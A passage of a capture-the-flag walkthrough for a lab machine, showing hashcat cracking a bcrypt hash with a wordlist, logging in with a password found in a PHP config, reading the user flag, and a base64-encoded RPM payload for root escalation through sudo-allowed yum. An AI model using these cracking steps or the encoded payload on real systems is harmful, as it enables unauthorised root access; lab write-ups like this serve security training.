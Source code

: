 ```sh
Hash.Target......: $2y$04$us{REDACTED}LeakoG8K30ou...A.ztMG
Time.Started.....: Fri Aug 28 20:45:18 2020 (0 secs)
Time.Estimated...: Fri Aug 28 20:45:18 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     2487 H/s (10.06ms) @ Accel:8 Loops:16 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 48/14344385 (0.00%)
Rejected.........: 0/48 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-16
Candidates.#1....: 123456 -> 1234567890

Started: Fri Aug 28 20:45:17 2020
Stopped: Fri Aug 28 20:45:20 2020

```

As it turns out the output from linpeas already revealed a password we can use, if you look for it under public PHP configs you'll find it, **jjameson:{REDACTED}**


From there we can get the user flag:

```sh
bash-4.2$ su jjameson
su jjameson
Password: {REDACTED}

[jjameson@dailybugle tmp]$ cd ~
cd ~
[jjameson@dailybugle ~]$ ls
ls
user.txt
[jjameson@dailybugle ~]$ cat user.txt
cat user.txt
27a{REDACTED_USER_FLAG}442e
[jjameson@dailybugle ~]$ 
```

[TASK 2] Question #3: What is the root flag?
--------------------------------------------


If we run **sudo -l** we see that jjameson can run something called *yum*, I'll have to google what that is. Before we do that, let's run linpeas again with our newly adquired jjameson user:

Looking around the web I came across this other exploitiation for Yum. Check it out [here](https://lsdsecurity.com/2019/01/more-linux-privilege-escalation-yum-rpm-dnf-nopasswd-rpm-payloads/).

It looks like this:

```base64
+Vippeef3FNn/eckVFlbk6H9rGKz//P672KD2D8Ws/7/v7E5o0r4wSj
pNhnztp+T2THrB6N9MXlQJfds/pfeVT/9f6GX/vb2Ff2bbpcXWO1/GL52+bCsv7PPYvWu2VKXzp8
U27t78zLwbct9h+/t/NHonrLlMrQz7PeX3BfXyW8tWuz/+OnN6aw/lLr7X15KfPY3aNTqr+oyloX
SZRsrjU5nynm2p/ZqFq1ONqSX9C24vGezv3fIuxd9S+mm7/KvJkv/3iLuov9yUKpkmV3PNbcPncv
x/qzc/QXT/anZ0uizu3a8mhnv79y3t+XjAyo4MfrOuYZiV0TGDQYGFISSxLhSUGBiNRkaoIlNVy+
nL7A0oCBqTg42ICX5YXJjNyMnKSUhJyMFJaw9LSEvGMLEryqlxsaTBGbriKmqXHh8KqDHF++XPaa
vJl70+XMGXwe/fXFwcnNF38sZ3c4Uh9Vty+ukE33DYPrhpmdnO9+mBu5HtnfKdjcqBhgafCPN+Oh
RInBocfxkYH2msb++y2au7nPeHixGLHfClzckOfgv3/Ljo5juQxGr+qLmT9f/DRfjkHo/1HJTteV
Jt6sKsf3L2xsXPgw489lZoXj9V51Rr6XGCQ/5mdZ3fq3nNuh//+jpjl/zgi9UmO+9Pj+iQM1W/76
izco/5tsLPT5UnDxp8tfL63W2NYc8Pv+iQscuv98e3x93W7//8Lw6a4MT/Zyi2MGhp/nfXqWbSRQ
WB0h+W/i/muGWWVh5ftdg5wuKW7cE7xHLWZZtO27N3M/b7rzrtaif0nZC83L6Z97Xuk+l9J5W/x/
/+znftHLGC73snb9n/7FVuRa/7ttNUrhvyKdY/qz/QrOn98Sd1Th+9Pi7a36H7xT/HVj9CL2BqWd
vGXM3bxkUfmqP9o39f5vrFvQnCjS0xRowOV2UEOCdXECFk6bLAND7aMfHaAUAACKx3++WAQAAA==
```
